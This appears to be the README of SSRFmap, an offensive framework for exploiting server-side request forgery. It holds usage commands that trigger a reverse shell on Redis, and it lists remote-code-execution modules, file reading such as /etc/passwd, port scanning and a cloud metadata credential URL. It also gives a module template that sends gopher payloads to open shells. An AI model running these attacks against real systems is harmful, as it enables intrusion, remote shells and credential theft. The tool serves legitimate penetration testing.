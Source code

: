 # SSRFmap [![Python 3.4+](https://img.shields.io/badge/python-3.4+-blue.svg)](https://www.python.org/downloads/release/python-360/)

SSRF are often used to leverage actions on other services, this framework aims to find and exploit these services easily. SSRFmap takes a Burp request file as input and a parameter to fuzz.

> Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf.

## Guide / RTFM

Basic install

```powershell
git clone https://github.com/swisskyrepo/SSRFmap
cd SSRFmap/
python3 ssrfmap.py
```

```powershell
usage: ssrfmap.py [-h] [-r REQFILE] [-p PARAM] [-m MODULES] [--lhost LHOST]
                  [--lport LPORT]

optional arguments:
  -h, --help     show this help message and exit
  -r REQFILE     SSRF Request file
  -p PARAM       SSRF Parameter to target
  -m MODULES     SSRF Modules to enable
  -l HANDLER     Start an handler for a reverse shell
  --lhost LHOST  LHOST reverse shell
  --lport LPORT  LPORT reverse shell
  --level [LEVEL]  Level of test to perform (1-5, default: 1)
```

The default way to use this script is the following.

```powershell
# Launch a portscan on localhost and read default files
python ssrfmap.py -r data/request.txt -p url -m readfiles,portscan

# Triggering a reverse shell on a Redis
python ssrfmap.py -r data/request.txt -p url -m redis --lhost=127.0.0.1 --lport=4242 -l 4242

# -l create a listener for reverse shell on the specified port
# --lhost and --lport work like in Metasploit, these values are used to create a reverse shell payload
# --level : ability to tweak payloads in order to bypass some IDS/WAF. e.g: 127.0.0.1 -> [::] -> 0000: -> ...
```

A quick way to test the framework can be done with `data/example.py` SSRF service.

```powershell
FLASK_APP=data/example.py flask run &
python ssrfmap.py -r data/request.txt -p url -m readfiles
```

## Modules

The following modules are already implemented and can be used with the `-m` argument.

| Name           | Description    |
| :------------- | :------------- |
| `fastcgi`      | FastCGI RCE |
| `redis`        | Redis RCE |
| `github`       | Github Enterprise RCE < 2.8.7 |
| `zaddix`        | Zaddix RCE |
| `mysql`        | MySQL Command execution |
| `smtp`        | SMTP send mail |
| `portscan`     | Scan ports for the host |
| `networkscan`    | HTTP Ping sweep over the network |
| `readfiles`    | Read files such as `/etc/passwd` |

## Contribute

I <3 pull requests :)
Feel free to add any feature listed below or a new service.

- aws and other cloud providers - extract sensitive data from http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy and more
- sockserver  - SSRF SOCK proxy server - https://github.com/iamultra/ssrfsocks
- handle request with file in requester

The following code is a template if you wish to add a module interacting with a service.

```python
from core.utils import *
import logging

name          = "servicename in lowercase"
description   = "ServiceName RCE - What does it do"
author        = "Name or pseudo of the author"
documentation = ["http://link_to_a_research", "http://another_link"]

class exploit():
    SERVER_HOST = "127.0.0.1"
    SERVER_PORT = "4242"

    def __init__(self, requester, args):
        logging.info("Module '{}' launched !".format(name))

        # Handle args for reverse shell
        if args.lhost == None: self.SERVER_HOST = input("Server Host:")
        else:                  self.SERVER_HOST = args.lhost

        if args.lport == None: self.SERVER_PORT = input("Server Port:")
        else:                  self.SERVER_PORT = args.lport

        # Data for the service
        # Using a generator to create the host list
        # Edit the following ip if you need to target something else
        gen_host = gen_ip_list("127.0.0.1", args.level)
        for ip in gen_host:
            port = "6379"
            data = "*1%0d%0a$8%0d%0aflus[...]%0aquit%0d%0a"
            payload = wrapper_gopher(data, ip , port)

            # Handle args for reverse shell
            payload = payload.replace("SERVER_HOST", self.SERVER_HOST)
            payload = payload.replace("SERVER_PORT", self.SERVER_PORT)

            # Send the payload
            r = requester.do_request(args.param, payload)
```

You can also contribute with a beer IRL or with `buymeacoffee.com`

[![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://buymeacoff.ee/swissky)

## Thanks to the contributors

- ???

## Inspired by

- [All you need to know about SSRF and how may we write tools to do auto-detect - Auxy](https://medium.com/bugbountywriteup/the-design-and-implementation-of-ssrf-attack-framework-550e9fda16ea)
- [How I Chained 4 vulnerabilities on GitHub Enterprise, From SSRF Execution Chain to RCE! - Orange Tsai](https://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)
- [Blog on Gopherus Tool  -SpyD3r](https://spyclub.tech/2018/blog-on-gopherus/)
- [Gopherus - Github](https://github.com/tarunkant/Gopherus)